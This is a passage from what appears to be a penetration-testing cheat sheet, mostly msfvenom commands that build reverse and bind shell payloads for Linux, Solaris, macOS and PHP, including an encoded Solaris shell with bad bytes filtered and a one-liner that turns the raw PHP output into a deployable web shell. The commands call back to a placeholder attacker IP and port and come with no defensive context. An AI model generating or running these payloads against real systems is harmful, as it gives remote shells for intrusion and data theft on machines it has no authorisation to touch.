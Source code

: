 ### Reverse Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
{% endcode %}

### Bind Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
{% endcode %}

### SunOS (Solaris)

{% code overflow="wrap" %}
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
{% endcode %}

## **MAC Payloads**

### **Reverse Shell:**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
{% endcode %}

### **Bind Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
{% endcode %}

## **Web Based Payloads**

### **PHP**

#### Reverse shel**l**

{% code overflow="wrap" %}
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
{% endcode %}
